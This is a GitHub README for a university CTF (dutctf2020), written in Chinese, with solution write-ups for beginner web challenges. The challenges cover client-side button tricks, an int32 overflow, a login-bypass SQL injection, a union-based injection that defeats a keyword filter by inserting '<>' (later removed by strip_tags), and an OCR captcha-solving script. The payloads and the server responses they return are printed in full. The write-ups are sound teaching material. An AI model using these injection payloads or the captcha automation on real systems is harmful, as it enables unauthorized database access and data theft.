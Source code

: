 # dutctf
dutctf2020 source code
* 
## notes
The challenges in this repo are real simple, with the goal of popularizing information security knowledge.
- [web-tutorial](#web-tutorial)
- [web1](#web1)
- [web2](#web2)
- [vol_time_1](#vol_time_1)
- [vol_time_2](#vol_time_2)
- [web5](#web5)

---- 
## web-tutorial 
### 方法1 
审查元素，发现按钮被禁用，去除disabled属性后点击按钮获得flag
### 方法2 
检查html源代码发现引用了web1.js，查看web1.js直接获得flag

---- 
## web1 
### 方法1  
审查元素，去除button的id=button1属性（或其他属性，如onmouseover或直接禁用相应css）后点击按钮获得flag
### 方法2
检查html源代码发现引用了混淆过的web2.js，上网寻找js反混淆器，对web2.js反混淆，直接获得flag

---- 
## web2
题目用golang编写，存放用户余额的变量用了int32（-2,147,483,648 到 2,147,483,647），且对用户输入过滤不完整，允许负整数输入，故输入超大负整数
以造成溢出（如-123123123），余额足够后购买flag

---- 
## vol_time_1
题目提示很明确，最基本的sql注入，原语句为`"SELECT * from user WHERE account='$username' AND psw='$password' LIMIT 0,1";`，核心为通过闭合引号或闭合引号并添加注释
来对原有的sql语句转义。提示中提到用“admin”账号登录，故构造payload：用户名为admin'#，则实际执行的sql语句为`SELECT * from user WHERE account=admin`，成功返回一条结果，
成功进入管理页面。

----
## vol_time_2
这是一道稍复杂的ctf sql注入题，首先尝试进行查询，发现只能查学号1，2，3的用户，且关键字如select，union等被过滤，故使用路径扫描器，如[dirsearch.py](https://github.com/maurosoria/dirsearch)，发现在项目根目录下有www.zip此处模拟的是开发者在上传源码后未将源码压缩包删除且nginx配置不合理），打开发现是个mvc架构的php应用，
进入controllers文件夹发现只有一个有效控制器Vol.php。
```
$num = $_POST['number'];             
//$num = intval($num);    //转下数据类型
$array = array('table','union','and','or','load_file','create','delete','select','update','sleep','alter','drop','truncate','from','max','min','order','limit');
foreach ($array as $value){
   if (substr_count($num, $value) > 0){
      exit('包含敏感关键字！');
   }
}
$sum = strip_tags($num);
$sql = "SELECT * from vt_bak WHERE stu_id={$num} LIMIT 1";
```
发现此段代码有逻辑问题，先进行了关键字检查再去除了成对尖括号。这样会导致sel<>ect被过滤成select。发现了漏洞。
同时由于返回的json是用返回纯数字下标数组的query方法生成的，相当于普通有回显的sql注入。
以下为payload：
出数据库:  
number=-1 unio<>n selec<>t 1,2,3,4,5,6,7,8,9,10,database()#
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

vol_time_2<\/p><\/td><\/tr>","all_time":6}
```
出表名
number=-1+unio<>n+sele<>ct+1,2,3,4,5,6,7,8,9,10,concat(group_concat(distinct+tab<>le_name))+fro<>m+info<>rmation_schema.ta<>bles+where+ta<>ble_sche<>ma='vol_time_2'#
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

flag,vt_bak<\/p><\/td><\/tr>","all_time":6}
```
发现flag表，出flag表列名
number=-1+uni<>on+sele<>ct 1,2,3,4,5,6,7,8,9,10,concat(group_concat(distinct+col<>umn_name))+f<>rom+info<>rmation_sc<>hema.colu<>m<>ns+where+tab<>le_schema="vol_time_2" a<>nd tab<>le_na<>me="fl<>ag"#+
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

flag,id<\/p><\/td><\/tr>","all_time":6}
```
发现flag字段，出内容
number=-1 uni<>on se<>lect 1,2,3,4,5,6,7,8,9,10,fla<>g fro<>m fl<>ag
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

dutctf{simple_logic_error}<\/p><\/td><\/tr>","all_time":6}
```
---- 
## web5
题目写的很明白，在时间范围内输对验证码就能拿flag
### 方法1 
识别验证码需要ocr，此处使用pytesseract，[具体用法](https://www.google.com)  
python脚本
```
import pytesseract,time,re
import base64
from PIL import Image
from io import BytesIO
def base64_to_image(base64_str, image_path=None):
    base64_data = re.sub('^data:image/.+;base64,', '', base64_str)
    byte_data = base64.b64decode(base64_data)
    image_data = BytesIO(byte_data)
    img = Image.open(image_data)
    if image_path:
        img.save(image_path)
    return img
t1 = time.time()

import requests,json
res = ''
alphabet = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'
s = requests.session()
r = s.post('http://10.7.20.225/web5/captcha',data=json.dumps({'captcha':'abcde'}))
img_b64 = json.loads(r.text).get('cpt')
print(len(img_b64))
print(json.loads(r.text).get('msg'))
img = base64_to_image(img_b64)
img.show()
text = pytesseract.image_to_string(img)
print(text)
for i in text:
    if i in alphabet:
        res += i
print(res.lower())
cpt = res.lower()[0:6]
print(cpt)
# get captcha
r = s.post('http://10.7.20.225/web5/captcha',data=json.dumps({'captcha':cpt}))
print('time taken:',time.time()-t1)
img_b64 = json.loads(r.text).get('cpt')

print(len(img_b64))
print(json.loads(r.text).get('msg'))
exit()
```
### 方法2
晚点放
